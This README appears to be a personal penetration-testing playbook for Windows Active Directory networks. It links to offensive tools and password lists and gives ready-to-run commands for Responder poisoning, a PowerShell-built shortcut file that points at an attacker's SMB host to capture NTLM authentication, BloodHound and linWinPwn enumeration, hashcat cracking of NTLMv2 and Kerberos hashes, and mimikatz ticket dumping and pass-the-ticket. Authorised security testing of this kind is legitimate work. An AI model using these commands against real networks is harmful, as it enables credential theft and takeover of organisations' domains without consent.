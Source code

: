 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### BloodHound
https://github.com/fox-it/BloodHound.py
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
### breach-parse
https://github.com/hmaverickadams/breach-parse
### PRET
https://github.com/RUB-NDS/PRET

## Wordlists bby
### Create your own wordlist
https://zzzteph.github.io/weakpass/
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

# VEV
## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```

### Responder linkifle

#### In Powershell, use each command to create a linkfile for Responder
```bash
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Users\<User>\Desktop\<name>.lnk")
$lnk.TargetPath = "\\<ResponderIP>\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
## Nmap
#### Scan for Version, OS-type and all open ports to a file
```bash
sudo nmap -sV -O -p- <IP/mask> > file.txt
```
## linWinPwn 
### With AD-user
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
```
### With Hash
```bash 
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <./krb5cc_ticket> -o <output_dir>
```
### With kerbticket
```bash 
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <LMHASH:NTHASH> -o <output_dir>
```

## BloodHound Dump on Linux (can be wonky)
```bash
./bloodhound.py -c All -u <AD_user> -p <AD_password> -dc <domain controller domain name> -d <domain name>

```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## PRET
### Nmap printers
```bash
nmap -p 9100 IP/mask
```
```bash
pret.py target {ps,pjl,pcl}
```
## Zero Logon
* in the making 

### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```
### Crack kerberos hashes
```bash
hashcat64.exe -m 13100 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
```
## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
